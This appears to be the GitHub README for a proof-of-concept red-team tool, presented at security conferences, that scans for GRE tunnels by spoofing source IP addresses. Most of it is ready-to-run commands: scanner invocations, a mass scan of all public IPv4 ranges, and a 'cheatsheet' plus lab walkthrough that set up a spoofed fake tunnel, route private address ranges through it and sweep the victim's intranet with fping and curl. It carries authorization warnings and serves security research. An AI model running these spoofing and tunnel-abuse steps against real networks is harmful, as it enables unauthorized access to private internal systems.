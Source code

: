 # GRE tunnel Scanner
## ⚠️⚠️⚠️ IMPORTANT ⚠️⚠️⚠️
### ⚠️This tool includes spoofing source IP addresses. Please ensure you have legal authorization to use it.⚠️
## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -lh <your_public_IP> -s <gre_src_ip_subnet or ip_list_file> -d  <gre_dst_ip_subnet or ip_list_file> -o <logfile>
```
## Example
- for example `1.1.1.1` and `2.2.2.2` has gre tunnel you are `3.3.3.3`
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2
INFO - sending gresrc 1.1.1.1, gredst 2.2.2.2
CRITICAL - Received reply from 2.2.2.2 GRE peer: 1.1.1.1
```
- And get how to abuse GRE tunnel
```
python3 main.py  -i eth0 -lh 3.3.3.3 -s 1.1.1.1 -d 2.2.2.2 -sch -l3
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=eth0
MYPUBIP=3.3.3.3
SRCADDR=1.1.1.1
DSTADDR=2.2.2.2
ip addr add  $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280

## route possible private ip ##
ip r add 10.0.0.0/8 dev gre1 src $MYPUBIP
ip r add 172.16.0.0/12 dev gre1 src $MYPUBIP
ip r add 192.168.0.0/16 dev gre1 src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16

### cleanup ###
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```

- if you know the endpoint but don't know the peer address you can do somethin like this
  - `python3 main.py  -i eth0 -l3 -lh 3.3.3.3 -s 1.1.1.0/24 -d 2.2.2.2 -id 8.8.8.8`
  - you well get reply from 8.8.8.8 while you get the right peer

- default setting about 500 package/sec.
## options
- `-sch`: Show Cheetsheet and exit (Input -i -lh -s -d which you found then get abuse GRE tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-r`: Place GRE dest IP infomation in ICMP (Default: Place GRE src IP infomation)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-s <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE src
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as GRE dst
- `-L <file>`: scan a list of GRE peers
  - file every line look like this `1.1.1.1,2.2.2.2`
- `-lh <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after GRE packet send (Default: 2)
- `-T <int>`: How many thread send GRE packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip GRE (Default: False)
- `-id <ip>`: Inside ICMP dst address (Default: same as GRE dst) 
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - GRE peer found log is on `CRITICAL`


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i  <interface> -lh <your_public_IP> -s aggrv4table.txt -d <your_target> -ss
```

## Lab
### Demo video
- [Youtube](https://youtu.be/DDvfYl5-J28)
### Scan GRE tunnel
`python3 main.py -i <iface> -lh <your_ip> -s 1.1.1.1 -d 160.25.104.199`
### Access & Scan intranet
```
#### Create Fake Tunnel ####
IFACE=eth0  #change this 
MYPUBIP=9.9.9.9  #change this
GATEWAY=1.2.3.4 #change this
SRCADDR=1.1.1.1 # lab info don't change
DSTADDR=160.25.104.199 # lab info don't change
ip addr add $SRCADDR/32 dev $IFACE
ip r add $DSTADDR dev $IFACE via $GATEWAY src $SRCADDR
ip tunnel add gre1 mode gre local $SRCADDR remote $DSTADDR ttl 255
ip link set gre1 up mtu 1280
### start scan intranet ###
fping -g 192.168.0.0/16

##### scan output #####
# 192.168.1.2 is alive

## test curl to web ##
curl 192.168.1.2
# YOU KNOW GRE!

#### cleanup ####
ip addr del $SRCADDR/32 dev $IFACE
ip tunnel del gre1
```


## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
